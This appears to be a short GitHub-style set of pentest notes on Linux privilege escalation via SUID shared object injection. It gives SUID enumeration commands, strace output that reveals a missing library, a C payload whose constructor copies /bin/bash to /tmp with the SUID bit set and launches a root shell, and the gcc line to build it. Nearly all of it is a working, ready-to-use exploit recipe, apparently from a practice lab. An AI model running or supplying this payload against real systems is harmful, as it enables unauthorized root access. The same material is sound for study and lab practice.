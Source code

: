    ## Enumeration
    
    find / -perm -u=s -type f 2>/dev/null
    find / -type f -perm -04000 -ls 2>/dev/null
        
        
   ## Resource 
   
     https://gtfobins.github.io/
       
  ## Shared Object Injection
  
   find / -type f -perm -04000 -ls 2>/dev/null
   strace <PATH=2>&1
       
       
  ## TYPE COMMAND 
  
   strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
  
  
  ## OUTPUT
 
         
         
## access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
## open("/etc/ld.so.cache", O_RDONLY)      = 3
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## open("/lib/libdl.so.2", O_RDONLY)       = 3
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## open("/usr/lib/libstdc++.so.6", O_RDONLY) = 3
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## open("/lib/libm.so.6", O_RDONLY)        = 3
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## open("/lib/libgcc_s.so.1", O_RDONLY)    = 3
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## open("/lib/libc.so.6", O_RDONLY)        = 3
## open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)


   ## Exploit Shared Object Injection
   
   mkdir /home/user/.config
       
   Create C file Type Some Commands
       
    #include <stdio.h>
    #include <stdlib.h>

    static void inject()__attribute__((constructor));

    void inject() {
      system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
    }
   
   ## Complie

    gcc -shared -fpic -o /home/user/.config/libcalc.so /home/user/libcalc.c










     
    
